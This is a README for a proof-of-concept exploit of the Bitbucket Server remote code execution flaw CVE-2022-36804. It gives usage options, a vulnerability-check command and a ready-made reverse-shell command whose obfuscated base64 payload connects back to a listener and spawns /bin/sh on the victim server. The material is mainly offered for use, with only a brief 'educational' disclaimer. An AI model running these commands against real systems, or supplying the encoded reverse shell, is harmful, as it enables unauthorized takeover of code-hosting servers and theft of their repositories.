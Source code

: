 # CVE-2022-36804 PoC
This repo contains a simple proof of concept exploit for the recent [BitBucket remote code execution vulnerability (CVE-2022-36804)](https://confluence.atlassian.com/bitbucketserver/bitbucket-server-and-data-center-advisory-2022-08-24-1155489835.html). Exploitation of this vulnerability requires access to a repository on the target instance, if you don't have creds, the target will need to have public respositories. 

# Usage
```
usage: exploit.py [-h] -p PROJECT -r REPO -u URL [-c COMMAND] [--proxy PROXY] [--session SESSION]
                  [--check]

Exploits the CVE-2022-36804 RCE in vulnerable BitBucket instances (< v8.3.1)

optional arguments:
  -h, --help            show this help message and exit
  -p PROJECT, --project PROJECT
                        The name of the project the public repository resides in (E.g.
                        testproject)
  -r REPO, --repo REPO  The name of the public repository (E.g. testrepo)
  -u URL, --url URL     The URL of the BitBucket server (E.g. http://localhost:7990/)
  -c COMMAND, --command COMMAND
                        The command to execute on the server (E.g. 'curl http://canary.domain/')
  --proxy PROXY         HTTP proxy to use for debugging (E.g. http://localhost:8080/)
  --session SESSION     The value of your 'BITBUCKETSESSIONID' cookie, required if your target
                        repo is private. (E.g. 3DD8B1EBA3763AD2611F4940BD870865)
  --check               Only perform a check to see if the instance is vulnerable
```

# Examples
## Checking if an instance is vulnerable
To check if an instance is vulnerable you can perform the following command
```
python3 exploit.py -p PROJECT -r REPO -u http://target.site/ --check
```

## Establishing a reverse shell
The below command can be used to establish a reverse shell on the victim (the base64 payload will need to updated with your listeners details)
```
python3 exploit.py -p PROJECT -r REPO -u http://localhost:7990/ -c "echo 'cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC42Ny4zIiw4ODg4KSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL3NoIikn' | base64 -d  | bash |"
```

# Credits
 - [TheGrandPew](https://github.com/TheGrandPew) - Identifying and reporting the bug
 
### Disclaimer
This exploit is for educational/research purposes, I am not responsible for how people will use it. Be nice :)
